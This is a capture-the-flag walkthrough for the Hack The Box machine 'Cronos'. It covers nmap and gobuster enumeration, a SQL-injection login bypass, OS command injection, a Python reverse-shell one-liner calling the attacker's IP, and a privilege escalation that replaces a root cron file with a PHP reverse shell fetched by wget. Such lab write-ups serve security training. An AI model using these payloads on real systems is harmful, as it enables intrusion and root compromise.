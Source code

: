 # Cronos

## Nmap

{% code overflow="wrap" %}
```bash
# Nmap 7.92 scan initiated Wed Oct  5 16:49:45 2022 as: nmap -Pn -p 22,53,80 -sCV -O -oN script-scan.txt -v cronos.htb
Nmap scan report for cronos.htb (10.10.10.13)
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Cronos
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.000 days (since Wed Oct  5 16:49:41 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  5 16:50:04 2022 -- 1 IP address (1 host up) scanned in 18.38 seconds
```
{% endcode %}

## HTTP

<figure><img src="../../../../.gitbook/assets/image (23) (2).png" alt=""><figcaption></figcaption></figure>

### Webfuzz

{% code overflow="wrap" %}
```
 kali@kali  ~/Documents/htb/cronos  gobuster vhost -u http://cronos.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100 -o webfuzz.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://cronos.htb
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/07 16:35:44 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.cronos.htb (Status: 200) [Size: 1547]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

### SQLi

{% embed url="https://book.hacktricks.xyz/pentesting-web/login-bypass#sql-injection-authentication-bypass" %}

We use the following payload for authentication bypass

```sql
admin' or '
```

<figure><img src="../../../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>

We will now test for OS Command Injection

```
8.8.8.8 & whoami
```

<figure><img src="../../../../.gitbook/assets/image (13) (3).png" alt=""><figcaption></figcaption></figure>

We can see we are the `www-data` user, so next we'll try to get a reverse shell

## Foothold

Set up your listener

```
rlwrap -cAr nc -lnvp 443
```

Enter this and click `execute`

{% code overflow="wrap" %}
```
8.8.8.8 & python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Check your listener and you should have a shell

<figure><img src="../../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Checking for scheduled tasks, we see there's a file called `artisan` that is running as a cron job with root privileges every minute of every hour of every month of every day of the week. We'll replace the contents of the file with a php reverse shell.

<figure><img src="../../../../.gitbook/assets/image (20) (2).png" alt=""><figcaption></figcaption></figure>

I used revshells.com to generate a reverse shell and pasted it into a file called `privesc.php`

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../../.gitbook/assets/image (21) (2).png" alt=""><figcaption></figcaption></figure>

Using a python web server, I download the file onto the victim machine and changed the name to match the filename in the cron job

```
wget 10.10.14.19/privesc.php
```

<figure><img src="../../../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (3).png" alt=""><figcaption></figcaption></figure>

Now set up a new listener (in my case, I will listen on port 445) and in just a few seconds, you should receive another shell, but this time as root

<figure><img src="../../../../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>

